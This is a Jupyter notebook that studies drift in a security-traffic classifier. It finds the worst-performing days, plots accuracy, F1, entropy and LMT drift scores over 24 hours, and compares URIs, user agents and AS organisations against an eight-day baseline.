In [11]:
import pandas as pd
import numpy as np
import json
import matplotlib.pyplot as plt
import matplotlib.dates as mdates
import re

## Check the worst performance day

In [12]:
# ---------- helpers ----------
def parse_datetime_from_file(p: str) -> pd.Timestamp:
    """
    Expected path example:
      ../data/sequences/2025-03-23/window_00_00_01_00.csv
    We use the folder date and the first HH_MM in the filename as the start time.
    """
    m_date = re.search(r"/(\d{4}-\d{2}-\d{2})/", p.replace("\\", "/"))
    m_win  = re.search(r"window_(\d{2})_(\d{2})_(\d{2})_(\d{2})\.csv$", p)
    if not m_date or not m_win:
        return pd.NaT
    day = pd.to_datetime(m_date.group(1))
    hh  = int(m_win.group(1))
    mm  = int(m_win.group(2))
    return day + pd.Timedelta(hours=hh, minutes=mm)

def slice_one_day(df, day_str):
    day = pd.Timestamp(day_str)
    return df[(df["datetime"] >= day) & (df["datetime"] < day + pd.Timedelta(days=1))].copy()


In [13]:
# Load the original static results (hour-level)
df = pd.read_csv("../data/res/static4/static4.csv")
df["datetime"] = df["file"].apply(parse_datetime_from_file)



# aggregate per day exactly as in Figure 6
static_day = (
    df.resample("1D", on="datetime")
          .mean(numeric_only=True)
          .reset_index()
)

# pick the N days with lowest daily mean F1
N = 5
lowest_days = static_day.nsmallest(N, "f1_score")
print(lowest_days[["datetime", "f1_score", "accuracy"]])


      datetime  f1_score  accuracy
28  2025-04-20  0.516304  0.640011
189 2025-09-28  0.624330  0.668054
65  2025-05-27  0.640425  0.634753
201 2025-10-10  0.672856  0.701253
81  2025-06-12  0.678975  0.686205


In [14]:
day = lowest_days.iloc[0]["datetime"]
day_start = day
day_end   = day + pd.Timedelta(days=1)

focus = df[(df["datetime"] >= day_start) & (df["datetime"] < day_end)]
# print(focus[["block_index", "f1_score","accuracy", "entropy_score", "lmt_mean_score", "lmt_sample_drift_ratio", "lmt_attempt_score", "lmt_intrusion-control_score", "lmt_scan_score"]])


### Visualize the performance and indicators in a day (24h)

In [6]:
import re
import json
import pandas as pd
import matplotlib.pyplot as plt
import matplotlib.dates as mdates

def plot_drift_day(df, target_day, entropy_ref_path, lmt_ref_path, save_dir="../data/ana"):
    """
    Visualize 24 hour drift evolution for a given date.
    """

    # --- Load references ---
    with open(entropy_ref_path, "r") as f:
        entropy_ref = json.load(f)
    with open(lmt_ref_path, "r") as f:
        lmt_ref = json.load(f)

    # --- Ensure datetime column exists ---
    if "datetime" not in df.columns:
        def parse_datetime_from_file(p):
            p = str(p).replace("\\", "/")
            m_date = re.search(r"/(\d{4}-\d{2}-\d{2})/", p)
            m_win  = re.search(r"window_(\d{2})_(\d{2})", p)
            if not m_date:
                return pd.NaT
            day = pd.to_datetime(m_date.group(1))
            if m_win:
                hh, mm = map(int, m_win.groups())
                return day + pd.Timedelta(hours=hh, minutes=mm)
            return day
        df = df.copy()
        df["datetime"] = df["file"].apply(parse_datetime_from_file)

    # --- Slice one day ---
    target_day = pd.Timestamp(target_day)
    mask = (df["datetime"] >= target_day) & (df["datetime"] < target_day + pd.Timedelta(days=1))
    sub = df.loc[mask].copy().sort_values("datetime")
    if sub.empty:
        print(f"[WARN] No data found for {target_day.date()}")
        return

    # --- Figure ---
    fig, axes = plt.subplots(1, 4, figsize=(20, 5), sharex=True)
    # Reserve headroom for legends above the axes
    fig.subplots_adjust(left=0.06, right=0.98, bottom=0.18, top=0.92, wspace=0.28)

    # (1) Performance
    ax = axes[0]
    ax.plot(sub["datetime"], sub["accuracy"],  color="royalblue", lw=2.0, label="Accuracy")
    ax.plot(sub["datetime"], sub["f1_score"], color="tomato",    lw=2.0, ls="--", label="F1 Score")
    ax.set_ylabel("Performance", fontsize=18)
    ax.set_ylim(0, 1.0)
    ax.grid(alpha=0.3, ls="--", lw=0.5)
    leg0 = ax.legend(loc="upper center",
                     bbox_to_anchor=(0.5, 1.25),  # above this axes
                     bbox_transform=ax.transAxes,
                     ncol=2, frameon=False, fontsize=20)

    # (2) Entropy
    ax = axes[1]
    ax.plot(sub["datetime"], sub["entropy_score"], color="royalblue", lw=2.0, label="Entropy")
    y_mon = entropy_ref["thr_std_monitor"]
    y_dec = entropy_ref["thr_std_decision"]
    ax.axhline(y_mon, color="orange", ls="--", lw=1.2)
    ax.axhline(y_dec, color="red",    ls=":",  lw=1.2)
    ax.text(0.99, y_mon, "monitor",  color="orange",
            transform=ax.get_yaxis_transform(), ha="right", va="top", fontsize=14)
    ax.text(0.99, y_dec, "decision", color="red",
            transform=ax.get_yaxis_transform(), ha="right", va="top", fontsize=14)
    ax.set_ylabel("Entropy", fontsize=18)
    ax.grid(alpha=0.3, ls="--", lw=0.5)
    leg1 = ax.legend(loc="upper center",
                     bbox_to_anchor=(0.5, 1.25),
                     bbox_transform=ax.transAxes,
                     ncol=1, frameon=False, fontsize=20)

    # (3) LMT scores
    ax = axes[2]
    ax.plot(sub["datetime"], sub["lmt_attempt_score"],            color="royalblue", lw=2.0, label="attempt")
    ax.plot(sub["datetime"], sub["lmt_intrusion-control_score"],  color="tomato",    lw=2.0, ls="--", label="intrusion")
    ax.plot(sub["datetime"], sub["lmt_scan_score"],               color="#299d8f",   lw=2.0, ls=":",  label="scan")
    ax.axhline(lmt_ref["per_class"]["attempt"]["thr_mad_decision"],           color="royalblue", lw=1.2)
    ax.axhline(lmt_ref["per_class"]["intrusion-control"]["thr_mad_decision"], color="tomato",    lw=1.2, ls="--")
    ax.axhline(lmt_ref["per_class"]["scan"]["thr_mad_decision"],              color="#299d8f",   lw=1.2, ls=":")
    ax.set_ylabel("LMT Score", fontsize=18)
    ax.grid(alpha=0.3, ls="--", lw=0.5)
    handles, labels = ax.get_legend_handles_labels()
    leg2 = ax.legend(handles, labels,
                     loc="upper center",
                     bbox_to_anchor=(0.5, 1.33),
                     bbox_transform=ax.transAxes,
                     ncol=2, frameon=False, fontsize=20)

    # (4) LMT Sample Drift Ratio
    ax = axes[3]
    ax.plot(sub["datetime"], sub["lmt_sample_drift_ratio"], color="tomato", lw=2.0, label="Sample Drift Ratio")
    ax.set_ylabel("Sample Drift Ratio (LMT)", fontsize=18)
    ax.set_ylim(0, 1.0)
    ax.grid(alpha=0.3, ls="--", lw=0.5)
    leg3 = ax.legend(loc="upper center",
                     bbox_to_anchor=(0.5, 1.25),
                     bbox_transform=ax.transAxes,
                     ncol=1, frameon=False, fontsize=20)

    # Shared x ticks
    for ax in axes:
        ax.xaxis.set_major_formatter(mdates.DateFormatter("%H:%M"))
        ax.tick_params(axis="x", rotation=45, labelsize=16)
        ax.tick_params(axis="y", labelsize=16)

    # Save without tight_layout so legends are not dropped
    out_base = f"{save_dir}/drift_day_{target_day.strftime('%Y%m%d')}"
    plt.savefig(out_base + ".pdf", bbox_inches="tight")
    # plt.savefig(out_base + ".png", dpi=300, bbox_inches="tight")
    plt.show()
    print(f"Saved → {out_base}.pdf and .png")

# Example usage
'''
df = pd.read_csv("../data/res/static4/static4.csv")

plot_drift_day(
    df=df,
    target_day="2025-04-20",
    entropy_ref_path="../data/res/static4/entropy_refs/entropy_ref_000.json",
    lmt_ref_path="../data/res/static4/lmt_refs/lmt_ref_000.json",
    save_dir="../data/ana"
)
'''

'\ndf = pd.read_csv("../data/res/static4/static4.csv")\n\nplot_drift_day(\n    df=df,\n    target_day="2025-04-20",\n    entropy_ref_path="../data/res/static4/entropy_refs/entropy_ref_000.json",\n    lmt_ref_path="../data/res/static4/lmt_refs/lmt_ref_000.json",\n    save_dir="../data/ana"\n)\n'



Saved → ../data/ana/drift_day_20250420.pdf and .png




Saved → ../data/ana/drift_day_20250527.pdf and .png




Saved → ../data/ana/drift_day_20250612.pdf and .png




Saved → ../data/ana/drift_day_20250928.pdf and .png




Saved → ../data/ana/drift_day_20251010.pdf and .png


In [6]:
df = pd.read_csv("../data/res/static4/static4.csv")
for d in ["2025-04-20", "2025-05-27", "2025-06-12", "2025-09-28", "2025-10-10"]:
    plot_drift_day(df, d,
                   "../data/res/static4/entropy_refs/entropy_ref_000.json",
                   "../data/res/static4/lmt_refs/lmt_ref_000.json",
                   "../data/ana")


## Raw Data Study

### 1. Baseline Check

In [15]:
import re
import os
import glob
import json
import pandas as pd

def _time_in_range(t, start, end):
    # works even if end < start, meaning the window crosses midnight
    return (start <= t <= end) if start <= end else (t >= start or t <= end)

def compare_to_baseline(day_str,
                        start_time="00:00",
                        end_time="23:59",
                        base_root="../data/sequences",
                        drift_root="../data/sequences",
                        days_baseline=8,
                        out_dir="../data/ana"):
    """
    Compare a specific time range against an n day baseline
    and save detailed CSVs for inspection.
    """

    os.makedirs(out_dir, exist_ok=True)
    tag = f"{day_str}_{start_time.replace(':','')}-{end_time.replace(':','')}"
    def _out(name): return os.path.join(out_dir, f"{name}_{tag}.csv")

    # --- baseline files ---
    print(f"Loading baseline: {days_baseline} days...")
    all_folders = sorted(glob.glob(os.path.join(base_root, "2025-*")))
    baseline_days = all_folders[:days_baseline]
    base_files = []
    for d in baseline_days:
        base_files.extend(sorted(glob.glob(os.path.join(d, "*.csv"))))
    if not base_files:
        print(f"[ERROR] no baseline files in {base_root}")
        return None
    baseline_df = pd.concat([pd.read_csv(f) for f in base_files], ignore_index=True)

    # --- drift files filtered by block start time ---
    print(f"Loading drift window: {day_str} from {start_time} to {end_time}...")
    drift_day_path = os.path.join(drift_root, day_str)
    all_day_files = sorted(glob.glob(os.path.join(drift_day_path, "*.csv")))
    file_pattern = re.compile(r"window_(\d{2})_(\d{2})_(\d{2})_(\d{2})\.csv")

    st_h, st_m = map(int, start_time.split(":"))
    en_h, en_m = map(int, end_time.split(":"))
    st_key = st_h * 60 + st_m
    en_key = en_h * 60 + en_m

    filtered_drift_files = []
    for f in all_day_files:
        m = file_pattern.search(os.path.basename(f))
        if not m:
            continue
        hh1, mm1, _, _ = map(int, m.groups())
        key = hh1 * 60 + mm1
        if _time_in_range(key, st_key, en_key):
            filtered_drift_files.append(f)

    if not filtered_drift_files:
        print(f"[ERROR] no drift files in range")
        return None

    print(f"Found {len(filtered_drift_files)} files for the specified time range.")
    drift_df = pd.concat([pd.read_csv(f) for f in filtered_drift_files], ignore_index=True)

    # --- clean ---
    for df in [baseline_df, drift_df]:
        df["category"] = df["category"].astype(str).str.lower()
        df["http_uri"] = df["http_uri"].astype(str).str.lower()
        df["http_user_agent"] = df["http_user_agent"].astype(str)
        df["client_as_org"] = df["client_as_org"].astype(str)

    # --- category shift ---
    cat_comp = pd.concat([
        baseline_df["category"].value_counts(normalize=True).rename("baseline"),
        drift_df["category"].value_counts(normalize=True).rename("drift")
    ], axis=1).fillna(0)
    cat_comp["diff"] = cat_comp["drift"] - cat_comp["baseline"]
    cat_comp.index.name = "category"
    cat_comp.sort_values("diff", ascending=False).to_csv(_out("case_category_shift"))

    # --- novelty ---
    base_uri = set(baseline_df["http_uri"])
    base_ua  = set(baseline_df["http_user_agent"])
    base_as  = set(baseline_df["client_as_org"])
    drift_uri = set(drift_df["http_uri"])
    drift_ua  = set(drift_df["http_user_agent"])
    drift_as  = set(drift_df["client_as_org"])

    novelty_stats = {
        "new_uris": len(drift_uri - base_uri),
        "new_user_agents": len(drift_ua - base_ua),
        "new_as_orgs": len(drift_as - base_as),
        "uri_overlap_ratio": len(drift_uri & base_uri) / max(1, len(base_uri)),
        "ua_overlap_ratio":  len(drift_ua & base_ua)   / max(1, len(base_ua)),
        "asn_overlap_ratio": len(drift_as & base_as)   / max(1, len(base_as)),
    }
    pd.DataFrame([novelty_stats]).to_csv(_out("case_novelty_summary"), index=False)

    # also save full lists of new items
    # URI
    uri_new = drift_df[drift_df["http_uri"].isin(drift_uri - base_uri)]
    uri_counts = uri_new["http_uri"].value_counts().reset_index()
    uri_counts.columns = ["http_uri", "count"]
    uri_counts.to_csv(_out("case_new_uris"), index=False)

    # User-Agent
    ua_new = drift_df[drift_df["http_user_agent"].isin(drift_ua - base_ua)]
    ua_counts = ua_new["http_user_agent"].value_counts().reset_index()
    ua_counts.columns = ["http_user_agent", "count"]
    ua_counts.to_csv(_out("case_new_user_agents"), index=False)

    # ASN
    asn_new = drift_df[drift_df["client_as_org"].isin(drift_as - base_as)]
    asn_counts = asn_new["client_as_org"].value_counts().reset_index()
    asn_counts.columns = ["client_as_org", "count"]
    asn_counts.to_csv(_out("case_new_as_orgs"), index=False)

    # --- ASN shift ---
    asn_comp = pd.concat([
        baseline_df["client_as_org"].value_counts(normalize=True).rename("baseline"),
        drift_df["client_as_org"].value_counts(normalize=True).rename("drift")
    ], axis=1).fillna(0)
    asn_comp["diff"] = asn_comp["drift"] - asn_comp["baseline"]
    asn_comp.index.name = "client_as_org"
    asn_comp.sort_values("diff", ascending=False).to_csv(_out("case_asn_shift"))

    # --- UA shift ---
    ua_comp = pd.concat([
        baseline_df["http_user_agent"].value_counts(normalize=True).rename("baseline"),
        drift_df["http_user_agent"].value_counts(normalize=True).rename("drift")
    ], axis=1).fillna(0)
    ua_comp["diff"] = ua_comp["drift"] - ua_comp["baseline"]
    ua_comp.index.name = "http_user_agent"
    ua_comp.sort_values("diff", ascending=False).to_csv(_out("case_user_agent_shift"))

    # --- URI shift ---
    uri_comp = pd.concat([
        baseline_df["http_uri"].value_counts(normalize=True).rename("baseline"),
        drift_df["http_uri"].value_counts(normalize=True).rename("drift")
    ], axis=1).fillna(0)
    uri_comp["diff"] = uri_comp["drift"] - uri_comp["baseline"]
    uri_comp.index.name = "http_uri"
    uri_comp.sort_values("diff", ascending=False).to_csv(_out("case_uri_shift"))

    # --- log to console as before ---
    print(f"\n=== Drift Comparison for {day_str} ({start_time} - {end_time}) ===")
    print("\n[Category shift (Proportion)]")
    print(cat_comp.sort_values("diff", ascending=False))
    print("\n[Novelty ratios]")
    for k, v in novelty_stats.items():
        print(f"{k:20s}: {v}")
    print("\n[Top ASN change (New > Old)]")
    print(asn_comp.sort_values("diff", ascending=False).head(20))
    print("\n[Top User Agent change (New > Old)]")
    print(ua_comp.sort_values("diff", ascending=False).head(20))
    print("\n[Top URI change (New > Old)]")
    print(uri_comp.sort_values("diff", ascending=False).head(20))

    return {
        "cat_comp": cat_comp,
        "asn_comp": asn_comp,
        "ua_comp": ua_comp,
        "uri_comp": uri_comp,
        "novelty": novelty_stats
    }

In [8]:
# example
if __name__ == "__main__":
    day_to_analyze = "2025-04-20"
    print("--- ANALYZING DRIFT WINDOW (00:00 - 15:00) ---")
    compare_to_baseline(day_to_analyze, start_time="00:00", end_time="15:00",
                        base_root="../data/sequences", drift_root="../data/sequences",
                        out_dir=f"../data/ana/{day_to_analyze}")
'''
    print("\n\n--- ANALYZING POST-DRIFT WINDOW (15:00 - 00:00) ---")
    compare_to_baseline(day_to_analyze, start_time="15:00", end_time="00:00",
                        base_root="../data/sequences", drift_root="../data/sequences",
                        out_dir=f"../data/ana/{day_to_analyze}")
''' 

--- ANALYZING DRIFT WINDOW (00:00 - 15:00) ---
Loading baseline: 8 days...
Loading drift window: 2025-04-20 from 00:00 to 15:00...
Found 16 files for the specified time range.

